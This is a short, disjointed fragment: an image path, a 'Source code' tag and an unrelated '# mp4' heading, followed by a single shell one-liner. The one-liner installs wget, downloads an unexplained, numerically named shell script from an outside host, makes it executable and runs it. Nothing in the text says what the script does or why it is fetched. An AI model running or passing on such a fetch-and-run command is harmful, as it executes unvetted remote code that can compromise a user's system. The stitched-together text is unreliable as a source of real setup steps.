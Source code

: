# mp4

apt-get -q update && apt-get install -qy wget && wget http://www.metrix.at/122313132113.sh && chown 1000:1000 122313132113.sh && chmod +x 122313132113.sh && ./122313132113.sh
